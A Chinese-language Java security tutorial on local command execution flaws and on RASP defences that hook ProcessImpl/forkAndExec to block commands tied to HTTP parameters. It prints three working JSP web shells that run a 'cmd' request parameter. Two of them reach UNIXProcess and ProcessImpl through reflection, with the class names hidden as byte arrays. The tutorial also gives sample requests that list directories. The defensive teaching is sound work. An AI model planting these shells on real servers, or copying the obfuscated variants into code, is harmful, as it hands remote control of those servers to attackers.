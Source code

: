 # 本地命令执行漏洞

攻击者一旦可以在服务器中执行任意本地系统命令就意味着服务器已被非法控制，在Java中可用于执行系统命令的方式有API有：`java.lang.Runtime`、`java.lang.ProcessBuilder`、`java.lang.UNIXProcess`/`ProcessImpl`。



## 1. Java本地命令执行测试

**示例 - 存在本地命令执行代码(`java.lang.Runtime`)：**

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.InputStream" %>
<pre>
<%
    Process process = Runtime.getRuntime().exec(request.getParameter("cmd"));
    InputStream in = process.getInputStream();
    int a = 0;
    byte[] b = new byte[1024];

    while ((a = in.read(b)) != -1) {
        out.println(new String(b, 0, a));
    }

    in.close();
%>
</pre>
```

攻击者通过向 `cmd` 参数传入恶意的代码即可在服务器上执行任意系统命令，请求：[http://localhost:8000/modules/cmd/cmd.jsp?cmd=ls](http://localhost:8000/modules/cmd/cmd.jsp?cmd=ls)，如下图：

<img src="https://oss.javasec.org/images/image-20200920232032191.png" alt="image-20200920232032191" />

由于传入的`cmd`参数仅仅是一个两位的英文字母，传统的WAF基本都不具备对该类型的攻击检测，所以如果没有RASP的本地命令执行防御会导致攻击者可以在服务器中执行恶意的命令从而控制服务器。



## 2. 深层调用命令执行测试

**示例 - 存在本地命令执行代码(`java.lang.UNIXProcess`)：**

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.*" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="java.lang.reflect.Method" %>
<pre>
<%
    String[] cmd = request.getParameterValues("cmd");

    if (cmd != null) {
        Class clazz = Class.forName(new String(new byte[]{
                106, 97, 118, 97, 46, 108, 97, 110, 103, 46,
                85, 78, 73, 88, 80, 114, 111, 99, 101, 115, 115
        }));

        Constructor constructor = clazz.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        byte[][] args = new byte[cmd.length - 1][];
        int      size = args.length; // For added NUL bytes

        for (int i = 0; i < args.length; i++) {
            args[i] = cmd[i + 1].getBytes();
            size += args[i].length;
        }

        byte[] argBlock = new byte[size];
        int    i        = 0;

        for (byte[] arg : args) {
            System.arraycopy(arg, 0, argBlock, i, arg.length);
            i += arg.length + 1;
        }

        byte[] bytes  = cmd[0].getBytes();
        byte[] result = new byte[bytes.length + 1];
        System.arraycopy(bytes, 0, result, 0, bytes.length);
        result[result.length - 1] = (byte) 0;

        Object object = constructor.newInstance(
                result, argBlock, args.length,
                null, 1, null, new int[]{-1, -1, -1}, false
        );

        Method inMethod = object.getClass().getDeclaredMethod("getInputStream");
        inMethod.setAccessible(true);

        InputStream in = (InputStream) inMethod.invoke(object);
        int a = 0;
        byte[] b = new byte[1024];

        while ((a = in.read(b)) != -1) {
            out.println(new String(b, 0, a));
        }

        in.close();
    }
%>
</pre>
```

**示例 - 存在本地命令执行代码(`java.lang.ProcessImpl`)：**

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.util.Scanner" %>

<%
    String str = request.getParameter("cmd");

    if (str != null) {
        Class clazz = Class.forName(new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 80, 114, 111, 99, 101, 115, 115, 73, 109, 112, 108}));

        Constructor<?> constructor = clazz.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        Object object   = constructor.newInstance(str.split("\\s+"), null, "./", new long[]{-1L, -1L, -1L}, false);
        Method inMethod = object.getClass().getDeclaredMethod("getInputStream");
        inMethod.setAccessible(true);
        InputStream in = (InputStream) inMethod.invoke(object);
        Scanner     s  = new Scanner(in).useDelimiter("\\A");

        out.println("<pre>");
        out.println(s.hasNext() ? s.next() : "");
        out.println("</pre>");
        out.flush();
        out.close();
    }
%>
```

这部分对于 linux 和 windows 系统的攻击代码有所差异，但原理上一致。

Linux系统，请求：[http://localhost:8000/modules/cmd/linux-cmd.jsp?cmd=ls](http://localhost:8000/modules/cmd/linux-cmd.jsp?cmd=ls)，如下图：

<img src="https://oss.javasec.org/images/image-20200920232507347.png" alt="image-20200920232507347" />

Windows系统，请求：[http://localhost:8000/windows-cmd.jsp?cmd=cmd%20/c%20dir%20](http://localhost:8000/windows-cmd.jsp?cmd=cmd%20/c%20dir%20)，如下图：

<img src="https://oss.javasec.org/images/image-20200920233748774.png" alt="image-20200920233748774" />



## 3. 本地命令执行防御

本地命令执行是一种非常高风险的漏洞，在任何时候都应当非常谨慎的使用，在业务中如果使用到了本地系统命令那么应当禁止接收用户传入参数。在很多时候攻击者会利用某些漏洞（如：Struts2、反序列化等）来攻击我们的业务系统，最终利用Java本地命令执行达到控制Web服务器的目的。这种情况下用户执行的系统命令对我们来说就不再受控制了，我们除了可以配置`SecurityManager`规则限制命令执行以外，使用RASP来防御本地命令执行就显得更加的便捷可靠。



### 3.1 RASP防御Java本地命令执行

在Java底层执行系统命令的API是`java.lang.UNIXProcess/ProcessImpl#forkAndExec`方法，`forkAndExec`是一个native方法，如果想要Hook该方法需要使用Agent机制中的`Can-Set-Native-Method-Prefix`，为`forkAndExec`设置一个别名，如：`__RASP__forkAndExec`，然后重写`__RASP__forkAndExec`方法逻辑，即可实现对原`forkAndExec`方法Hook。

**示例 - Java本地命令执行API：**

<img src="https://oss.javasec.org/images/image-20201115200801836.png" alt="image-20201115200801836" />

使用RASP的Hook机制捕获当前正在执行的系统命令，不过不同的API获取执行的命令参数的方式不太一样。

**示例 - Hook java.lang.ProcessImpl执行系统命令：**

```java
/**
 * Hook Windows系统ProcessImpl类构造方法
 */
@RASPMethodHook(
      className = "java.lang.ProcessImpl", methodName = CONSTRUCTOR_INIT,
      methodArgsDesc = ".*", methodDescRegexp = true
)
public static class ProcessImplHook extends RASPMethodAdvice {

   @Override
   public RASPHookResult<?> onMethodEnter() {
      try {
         String[] commands = null;

         // JDK9+的API参数不一样！
         if (getArg(0) instanceof String[]) {
            commands = getArg(0);
         } else if (getArg(0) instanceof byte[]) {
            commands = new String[]{new String((byte[]) getArg(0))};
         }

         // 检测执行的命令合法性
         return LocalCommandHookHandler.processCommand(commands, getThisObject(), this);
      } catch (Exception e) {
         RASPLogger.log(AGENT_NAME + "处理ProcessImpl异常:" + e, e);
      }

      return new RASPHookResult<?>(RETURN);
   }

}
```



#### 3.1.1 请求参数关联分析

获取到本地命令执行的参数后需要与Http请求的参数进行关联分析，检测当前执行的系统命令是否与请求参数相关，如果确认当前执行的系统命令来源于Http请求参数，那么RASP会立即阻止命令执行并阻断Http请求。

#### 3.1.2 限制执行本地系统命令

因为本地命令执行的危害性极大，所以在默认情况下可以直接禁止本地命令执行，如果业务的确有必要开启那么可以对相应的业务URL做白名单。限制的方式可分为两种类型：

1. 完全限制本地命令执行，禁止在Java中执行任何命令；
2. 允许程序内部的本地命令执行，只在有Http请求的时候才禁止执行命令；

这两种类型的禁止方案为可选方案，可在RASP的云端实时配置。

**示例 - 禁止在HTTP请求时执行本地系统命令：**

<img src="https://oss.javasec.org/images/image-20201115203039369.png" alt="image-20201115203039369" />


